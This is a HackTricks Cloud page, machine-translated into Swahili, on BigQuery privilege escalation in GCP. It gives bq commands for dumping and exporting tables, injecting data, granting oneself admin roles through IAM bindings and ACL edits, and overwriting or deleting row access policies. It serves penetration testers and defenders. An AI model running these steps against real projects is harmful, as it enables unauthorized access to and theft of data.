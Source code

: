 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Kwa maelezo zaidi kuhusu BigQuery angalia:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Kusoma taarifa zilizohifadhiwa ndani ya meza ya BigQuery inaweza kuwa inawezekana kupata **taarifa nyeti**. Ili kufikia taarifa hizo ruhusa inayohitajika ni **`bigquery.tables.get`**, **`bigquery.jobs.create`** na **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

Hii ni njia nyingine ya kufikia data. **Ihamashe kwenye hifadhi ya wingu** na **pakua faili** zenye taarifa.\
Ili kutekeleza hatua hii, ruhusa zifuatazo zinahitajika: **`bigquery.tables.export`**, **`bigquery.jobs.create`** na **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

Inaweza kuwa inawezekana **kuingiza data fulani za kuaminika** katika jedwali la Bigquery ili kutumia **udhaifu mahali pengine.** Hii inaweza kufanywa kwa urahisi na ruhusa **`bigquery.tables.get`**, **`bigquery.tables.updateData`** na **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Mshambuliaji anaweza kutumia ruhusa hii **kujipe ruhusa zaidi** juu ya dataset ya BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Ruhusa hii pekee inaruhusu **kusaidia upya ufikiaji wako juu ya dataset ya BigQuery kwa kubadilisha ACLs** zinazoonyesha nani anaweza kuipata:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Mshambuliaji anaweza kutumia ruhusa hii **kujipe ruhusa zaidi** juu ya meza ya BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Kulingana na nyaraka, kwa ruhusa zilizotajwa inawezekana **kusaidia sera ya safu.**\
Hata hivyo, **ukitumia cli `bq`** unahitaji zaidi: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Ni rahisi kupata kitambulisho cha chujio katika matokeo ya uainishaji wa sera za safu. Mfano:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Ikiwa una **`bigquery.rowAccessPolicies.delete`** badala ya `bigquery.rowAccessPolicies.update` unaweza pia kufuta sera hiyo: 

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Chaguo kingine kinachoweza kupita sera za ufikiaji wa safu ni kubadilisha tu thamani ya data iliyozuiliwa. Ikiwa unaweza kuona tu wakati `term` ni `Cfba`, badilisha rekodi zote za jedwali kuwa na `term = "Cfba"`. Hata hivyo, hii inazuia na bigquery.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
